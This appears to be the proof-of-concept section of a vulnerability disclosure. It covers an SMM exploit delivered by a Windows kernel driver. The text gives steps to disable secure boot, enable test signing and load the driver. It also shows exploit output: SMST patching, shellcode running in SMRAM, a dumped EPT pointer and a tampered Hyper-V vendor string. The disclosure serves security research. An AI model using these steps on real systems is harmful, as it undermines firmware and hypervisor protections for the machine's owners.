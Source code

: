 ## Proof of Concept (PoC)

The attached demo project demonstrates successful exploitation and dumps contents of MSRs that are only accessible in SMM and the physical address of the EPTP. It also modifies Hyper-V hypervisor's CPUID VM-exit handling code to return an altered hypervisor vendor string.

The PoC is tested on Windows build 18362.1256, with and without HVCI enabled.

Recoding of successful exploitation can be found at [YouTube](https://youtu.be/jZWzBF8LKzM).
![Demo.png](Demo.png)

### Test Instructions

1. Open the demo.sln in Visual Studio 2019
2. Build the solution for Debug or Release build
3. Copy the compiled demo.sys into the target system (say, C:\users\user\desktop\demo.sys)

On the target system,
1. Disable secure boot from BIOS, and reboot
2. Enable the test signing mode, and reboot
    ```
    > bcdedit /set testsigning on
    ```
3. Create the service to load the demo.sys
    ```
    > sc create demo type= kernel binPath= C:\users\user\desktop\demo.sys
    ```
4. Start [DebugView](https://docs.microsoft.com/en-us/sysinternals/downloads/debugview) and enable "Capture Kernel" from the "Capture" menu.
5. Start the demo
    ```
    > sc start demo
    ```
6. If successful, DebugView will show values of SMM related MSRs.
    ```
    [+] ReportSmramRange: TSEG implied SMRAM: 0x88400000 - 0x88800000
    [-] ReportSmramRange: Exception occurred while accessing SMRR MSR : c0000096
    [+] FindSystemManagementServiceTable: SMM core found at 0x87f1b390 in RT Code
    [+] FindSystemManagementServiceTable: SMST found at 0x887fa710 in SMRAM
    [+] ExploitSmm: Patched SMST->SmmLocateProtocol in SMRAM
    [+] ExploitSmm: Placed SMM shell code
    [+] ExploitSmm: Triggered SMM exploit
    [+] DumpSmmExploitOuput: IA32_SMBASE             = 0x887cd000
    [+] DumpSmmExploitOuput: MSR_SMM_FEATURE_CONTROL = 0x1
    [+] DumpSmmExploitOuput: MSR_SMM_MCA_CAP         = 0xc00000000000000
    [+] DumpSmmExploitOuput: EPT pointer             = 0x10a72001e
    [+] DumpSmmExploitOuput: Patched Hv address      = 0x1004382f0
    [+] ExploitSmm: Successfully executed shell code in SMM. Failing DriverEntry to unload itself
    DriverEntry failed 0xc0000120 for driver \REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\demo
    ```
7. If Hyper-V is running and code modification was successful, CPUID 0x4000000 will return the modified hypervisor vendor string `Hv Tampered!`.
    ```
    > CheckHvVendor.exe
    Executing CPUID(0x40000000) on CPU 0
    Result: Hv Tampered!
    Executing CPUID(0x40000000) on CPU 1
    Result: Hv Tampered!
    Executing CPUID(0x40000000) on CPU 2
    Result: Hv Tampered!
    Executing CPUID(0x40000000) on CPU 3
    Result: Hv Tampered!
    ```

